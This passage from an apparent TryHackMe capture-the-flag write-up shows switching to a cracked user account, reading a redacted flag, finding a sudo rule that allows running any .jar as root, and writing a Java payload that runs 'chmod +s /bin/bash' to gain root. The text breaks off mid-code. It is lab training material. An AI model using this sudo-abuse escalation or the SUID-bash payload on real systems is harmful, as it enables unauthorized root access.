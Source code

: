 Cracked user `jdk-admin` password!

**Let's Switch User to `jdk-admin`:**
```shell
web@vulnnet-dotjar:/var/backups$ su jdk-admin
Password: 
jdk-admin@vulnnet-dotjar:/var/backups$ whoami;hostname;id;ip a
jdk-admin
vulnnet-dotjar
uid=1000(jdk-admin) gid=1000(jdk-admin) groups=1000(jdk-admin),24(cdrom)
1: lo: <LOOPBACK,UP,LOWER_UP> mtu 65536 qdisc noqueue state UNKNOWN group default qlen 1000
    link/loopback 00:00:00:00:00:00 brd 00:00:00:00:00:00
    inet 127.0.0.1/8 scope host lo
       valid_lft forever preferred_lft forever
    inet6 ::1/128 scope host 
       valid_lft forever preferred_lft forever
2: eth0: <BROADCAST,MULTICAST,UP,LOWER_UP> mtu 9001 qdisc fq_codel state UP group default qlen 1000
    link/ether 02:1a:e0:76:d2:87 brd ff:ff:ff:ff:ff:ff
    inet 10.10.203.203/16 brd 10.10.255.255 scope global dynamic eth0
       valid_lft 3354sec preferred_lft 3354sec
    inet6 fe80::1a:e0ff:fe76:d287/64 scope link 
       valid_lft forever preferred_lft forever
jdk-admin@vulnnet-dotjar:/var/backups$ 
```

I'm user `jdk-admin`!

**user.txt:**
```shell
jdk-admin@vulnnet-dotjar:/var/backups$ cat /home/jdk-admin/user.txt 
THM{Redacted}
```

### jdk-admin to root

**Sudo permission:**
```shell
jdk-admin@vulnnet-dotjar:/var/backups$ sudo -l
[...]
Password: 
Matching Defaults entries for jdk-admin on vulnnet-dotjar:
    env_reset, mail_badpass,
    secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User jdk-admin may run the following commands on vulnnet-dotjar:
    (root) /usr/bin/java -jar *.jar
```

As you can see, user `jdk-admin` can run `/usr/bin/java -jar *.jar` as root!

**Now, since it enables us to execute any `.jar` file, we can create our own evil `.jar` file!!** (From [this blog](https://mkyong.com/java/how-to-execute-shell-command-from-java/))
```java
import java.io.BufferedReader;
import java.io.IOException;
import java.io.InputStreamReader;

public class Main {
    public static void main(String[] args) {
        try {
            Process process = Runtime.getRuntime().exec("chmod +s /bin/bash");

            StringBuilder output = new StringBuilder();

            BufferedReader reader = new BufferedReader(
                    new InputStreamReader(process.getInputStream()));

```